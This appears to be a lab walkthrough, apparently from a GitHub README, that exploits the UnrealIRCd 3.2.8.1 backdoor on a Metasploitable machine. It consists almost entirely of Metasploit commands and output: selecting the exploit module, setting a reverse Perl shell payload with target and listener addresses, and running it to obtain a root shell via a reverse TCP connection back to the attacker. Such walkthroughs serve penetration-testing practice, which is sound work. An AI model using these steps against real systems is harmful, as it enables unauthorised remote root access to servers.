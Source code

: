 <pre>6667/tcp open  irc         UnrealIRCd</pre>

## UnrealIRCD 3.2.8.1 Backdoor Command Execution

### Exploit using metasploit framework

<pre>msf6 > search UnrealIRCd</pre>

<pre>Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor</pre>

<pre>msf6 > use 0</pre>

### set pyaload

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads </pre>

<pre>Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 8</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options </pre>

<pre>Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target</pre>


<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhosts A.B.C.D</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost E.F.G.H</pre>

<pre>msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit</pre>

### Exploit completed and get root shell 
<pre>[*] Started reverse TCP handler on 192.168.161.128:4444 
[*] 192.168.161.131:6667 - Connected to 192.168.161.131:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.161.131:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.161.128:4444 -> 192.168.161.131:36127) at 2025-02-04 14:17:47 +0530


id
uid=0(root) gid=0(root)</pre>

